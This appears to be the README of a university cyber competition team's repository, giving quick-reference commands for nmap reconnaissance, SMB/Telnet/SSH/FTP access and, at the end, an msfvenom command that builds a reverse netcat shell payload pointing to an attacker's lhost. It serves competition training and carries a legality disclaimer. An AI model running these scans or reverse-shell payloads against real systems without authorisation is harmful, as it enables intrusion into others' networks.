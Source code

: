 <img style="float: left; width: 173px; height: 200px; margin: 5px;" src="https://www.uat.edu/themes/uat/images/uat-logo.png"/>
# A Public Repository for the UAT Cyber Competition Team 
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands:
```
nmap [flag(s)] [target/file]
```


References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## REMOTE ACCESS (Network Services)
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:
```
ftp[ip]
```

References:\
[Try Hack Me Network Services room](https://tryhackme.com/r/room/networkservices)

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
